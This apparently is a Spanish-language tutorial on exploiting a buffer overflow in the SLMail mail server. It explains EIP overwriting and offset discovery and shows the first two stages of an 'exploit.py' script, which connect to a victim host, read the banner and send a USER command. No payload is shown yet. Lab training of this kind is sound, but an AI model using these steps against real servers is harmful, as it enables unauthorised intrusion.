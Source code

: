 #BufferOverflow #SLMail

###### Enumeración
En las fases iniciales lo primero que debemos de hacer es averiguar cuales son los limites de los programas objetivos, esto se realiza probando a introducir más caracteres de los debidos en los diferentes campos de entrada del programa, como una cadena de texto o un archivo hasta que se detecte que la aplicación se corrompe o falla.

El registro *EIP (Extended Instruction Pointer)* es un registro de la CPU que apunta a la dirección en la memoria donde se encuentra la siguiente instrucción que se va a ejecutar. Un buffer overflow exitoso es cuando el valor del registro *EIP* se sobre escribe con una dirección controlada por el atacante.

El objetivo de averiguar el *offset* es determinar el número exacto de caracteres que se deben introducir en el campo de entrada para sobrescribir el valor del registro *EIP* y apuntar a la dirección de memoria controlada por el atacante. Una vez que se conoce el *offset*, el atacante puede diseñar un exploit personalizado para el programa objetivo que permita tomar control del registro *EIP* y ejecutar código malicioso.

Para esto nos crearemos nuestro script de Python, vamos a llamarle `exploit.py`
	En este caso al estar explotando SLMail usaremos lo siguiente:

01.-
```python
	#!/usr/bin/python3
	
	import socket
	import sys
	
	#Variables globales
	ip_adress = <IP_Victima>
	port = <Puerto>
	
	
	def exploit():
		
		#Crar socket
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		
		#Conectar con el servidor
		s.connect((ip_adress, port))
		
		#Recibir la respuest(banner)
		banner = s.recv(1024)
		print(banner)
		
		
	if __name__ == '__main__':
	
		exploit()
```
En este punto tenemos que verificar que hemos recibido el banner, cuando ejecutamos el exploit.

02.-
```python
	#!/usr/bin/python3
	
	import socket
	import sys
	
	#Variables globales
	ip_adress = <IP_Victima>
	port = <Puerto>
	
	if len(sys.argv) != 2:
		print("\n[!] Usage: exploit.py <length>")
		exit(1)
		
	def exploit():
		
		#Crar socket
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		
		#Conectar con el servidor
		s.connect((ip_adress, port))
		
		#Recibir la respuest(banner)
		banner = s.recv(1024)
		
		s.send(b"USER test" + b'\r\n')
		response = s.recv(1024)
		print(response)
		
	if __name__ == '__main__':
	
		exploit()
```